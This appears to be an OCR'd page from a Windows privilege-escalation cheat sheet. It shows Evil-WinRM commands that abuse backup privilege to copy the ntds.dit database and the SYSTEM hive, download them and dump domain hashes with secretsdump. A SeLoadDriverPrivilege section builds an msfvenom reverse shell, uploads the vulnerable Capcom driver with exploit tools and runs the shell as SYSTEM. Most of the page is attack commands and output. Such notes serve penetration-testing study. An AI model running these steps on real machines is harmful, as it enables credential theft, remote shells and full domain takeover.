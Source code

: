 ```powershell
->
```
```powershell
*Evil-WinRM* PS C:\temp> robocopy /b z:\windows\ntds . ntds.dit

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Friday, August 9, 2024 10:57:58 PM
   Source : z:\windows\ntds\
     Dest : C:\temp\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

                           1    z:\windows\ntds\
            New File              16.0 m        ntds.dit

[snipped]
```
```powershell
*Evil-WinRM* PS C:\temp> reg save HKLM\SYSTEM c:\temp\system
The operation completed successfully.
```
```powershell
*Evil-WinRM* PS C:\temp> download system

Info: Downloading C:\temp\system to system

Info: Download successful!
```
```powershell
*Evil-WinRM* PS C:\temp> download ntds.dit

Info: Downloading C:\temp\ntds.dit to ntds.dit

Info: Download successful!
```
```
➜  secretsdump.py -system system -ntds ntds.dit local
```
## SeLoadDriverPrivilege
-> https://github.com/k4sth4/SeLoadDriverPrivilege
```bash
➜  msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o shell.exe
```
```powershell
*Evil-WinRM* PS C:\temp> upload Capcom.sys
*Evil-WinRM* PS C:\temp> upload ExploitCapcom.exe
*Evil-WinRM* PS C:\temp> upload eoploaddriver_x64.exe
*Evil-WinRM* PS C:\temp> upload shell.exe
```
```powershell
*Evil-WinRM* PS C:\temp> .\eoploaddriver_x64.exe System\CurrentControlSet\dfserv C:\temp\Capcom.sys
```
```powershell
*Evil-WinRM* PS C:\temp> .\ExploitCapcom.exe LOAD \temp\Capcom.sys
```
```powershell
*Evil-WinRM* PS C:\temp> .\ExploitCapcom.exe EXPLOIT .\shell.exe
```